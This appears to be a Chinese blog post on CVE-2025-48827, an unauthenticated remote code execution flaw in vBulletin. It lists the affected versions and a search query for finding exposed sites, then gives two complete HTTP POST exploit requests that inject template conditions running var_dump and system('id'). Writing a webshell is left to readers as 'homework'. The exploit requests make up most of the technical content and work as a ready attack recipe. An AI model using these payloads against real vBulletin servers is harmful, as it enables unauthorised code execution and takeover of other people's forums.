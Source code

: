 #  vBulletin replaceAdTemplate 远程代码执行漏洞（CVE-2025-48827）  
原创 SXdysq  南街老友   2025-06-06 16:06  
  
   
  
> 字数 284，阅读大约需 2 分钟  
  
# vBulletin介绍  
  
vBulletin ‌是一个强大、灵活且可高度定制的商业论坛程序，广泛用于创建用户友好的论坛网站。它使用 PHP 脚本语言编写，并基于 MySQL 数据库，这使得它在性能和速度方面表现出色‌。  
# 漏洞介绍  
  
漏洞编号CVE-2025-48827，vBulletin replaceAdTemplat 远程代码执行漏洞，攻击者可构造恶意请求在无需登录的情况下执行任意代码控制服务器。  
# 漏洞版本  
```
vBulletin 5.0.0 – 5.7.5vBulletin 6.0.0 – 6.0.3
```  
# 搜索语法  
```
app="vBulletin"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtC8lnkrNoib9SoxcKxmNOZgibsgibhcNUjoJ5V92qUtxUk3PaicibtyKKiccSy6CPtK5tCJxZJvFWNFdnFA/640?from=appmsg "null")  
  
# 漏洞复现  
## 验证POC  
```
POST / HTTP/1.1Host: User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept: */*Connection: keep-aliveContent-Type: application/x-www-form-urlencodedContent-Length: 134routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=rand_string&template=<vb:if condition='"var_dump"("rand_value")'></vb:if>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtC8lnkrNoib9SoxcKxmNOZgibNL2n4C7epZ22RDFaFHJQJ1pFzUKtAY5aCFguIr0AXyib0piboMGhXOicw/640?from=appmsg "null")  
  
## 命令执行POC  
```
POST / HTTP/1.1Host: User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept: */*Connection: keep-aliveContent-Type: application/x-www-form-urlencodedContent-Length: 134routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=test&template=<vb:if condition='"system"("id")'></vb:if>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtC8lnkrNoib9SoxcKxmNOZgibnyYGiaV0FehdEl0WPlrwX2yFich6A0zXficc2jHTnEONpP5lQ3hXib2pSQ/640?from=appmsg "null")  
  
## 写入WebShell  
  
留给大家的作业，自己学习一下吧  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtC8lnkrNoib9SoxcKxmNOZgib32gdHNCy2OTjiaPAOcgJCJicGfduWlVlENEiaAnyD77E2Exa1ibTicmic0JQ/640?from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtC8lnkrNoib9SoxcKxmNOZgibILoXiaZCtoGL064uMvuUia8bf28W09ic4bJcMgpGTfM4HyyHyMj22Mj0Q/640?from=appmsg "null")  
  
# 灵魂发问  
  
大家公司是不是都会有那么一个一天天不干人事的心机婊呢 ？欢迎留言交流。  
  
   
  
  

